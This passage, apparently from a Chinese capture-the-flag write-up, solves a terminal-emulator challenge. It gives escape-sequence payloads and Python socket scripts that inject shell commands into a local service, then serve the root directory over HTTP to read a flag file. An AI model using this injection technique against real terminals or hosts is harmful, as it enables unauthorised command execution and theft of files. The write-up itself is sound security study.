 ```raw
b'\x1bP$q\r\x03\r\x1b\\\n'
```

这样就可以拿到flag1了。

最终的解题代码：

```python
#!/usr/bin/env python3

import socket

payload = b'\x1bP$q\r\x03\r\x1b\\'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('127.0.0.1', 8000))
    s.sendall(payload)

```

### 希望的终端模拟器，连接着我们的羁绊

这一问，我们需要拿到位于服务器根目录的flag2。

很自然想法是，我们现在相当于可以在终端上执行任意命令了，只是看不到终端的输出内容。

```raw
b'\x1bP$q\r\x03\r???\r\x1b\\\n'
```

在`???`处插入任意的命令，应该都可以执行，并且不存在`chroot`限制。

一开始的想法是，我通过一个操作把`/flag2`搬到当前目录，然后重新把`fileserver`启动起来，再向`flieserver`发起一个`GET /flag2`，就行了。结果试了好久才发现这个当前目录居然是只读的。于是这道题卡了小半天。

到了晚上突然想起，我为什么非得用他提供的文件服务呢？我不是还有`Python`？

于是写出下面payload：

```raw
b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
```

这样就可以把他的服务干掉以后开一个`Python`的文件服务器，而且可以指定根目录为当前目录。

最终的脚本如下：

```python
#!/usr/bin/env python3

import socket
import time
import re

payloads = [
    b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
    b'GET /flag2\r\n\r\n'
]


def request(port, payload):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('127.0.0.1', port))
        s.sendall(payload)
        response = b""
        while 1:
            data = s.recv(4096)
            if not data:
                break
            response += data
```
